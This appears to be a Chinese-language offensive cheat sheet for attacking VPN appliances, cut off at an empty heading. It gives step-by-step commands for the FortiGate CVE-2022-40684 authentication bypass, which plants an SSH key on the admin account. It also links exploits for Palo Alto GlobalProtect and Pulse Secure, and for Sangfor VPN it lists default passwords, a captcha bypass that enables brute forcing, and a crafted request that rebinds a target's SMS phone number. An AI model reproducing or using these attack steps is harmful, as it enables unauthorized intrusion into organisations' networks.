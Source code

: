 ##### 认证绕过 CVE-2022-40684

exp：https://github.com/horizon3ai/CVE-2022-40684

```
git clone https://github.com/horizon3ai/CVE-2022-40684.git
cd CVE-2022-40684
ssh-keygen -t rsa
python3 CVE-2022-40684.py -t 1.1.1.1 --username admin --key-file ~/.ssh/id_rsa.pub
ssh admin@1.1.1.1
```

#### Palo Alto SSL VPN

##### GlobalProtect 远程代码执行 CVE-2019-1579

exp：https://github.com/securifera/CVE-2019-1579

#### Pulse Secure SSL VPN

##### 任意文件读取 CVE-2019-11510

exp：https://github.com/projectzeroindia/CVE-2019-11510

##### 远程代码执行 CVE-2019-11539

exp：https://github.com/0xDezzy/CVE-2019-11539

#### 深信服 VPN

##### 常见密码

```
admin/sangfor@123
sangfor/sangfor
test/test
test1/123456b
```

##### 口令爆破

用户登录，若多次尝试登录失败会要求输入验证码，若输入错误的验证码，会提示“校验码错误或校验码已过期”；修改登录请求的数据包，清空cookie和验证码字段的值即可绕过验证码，此时提示“用户名或密码错误”。

```
/por/login_auth.csp?apiversion=1sangfor/cgi-bin/login.cgi?rnd=
```

##### 短信绕过

```
POST https://ip/por/changetelnum.csp?apiversion=1

newtel=TARGET_PHONE&sessReq=clusterd&username=TARGET_USERNAME&grpid=0&sessid=0&ip=127.0.0.1
```

##### 任意密码重置
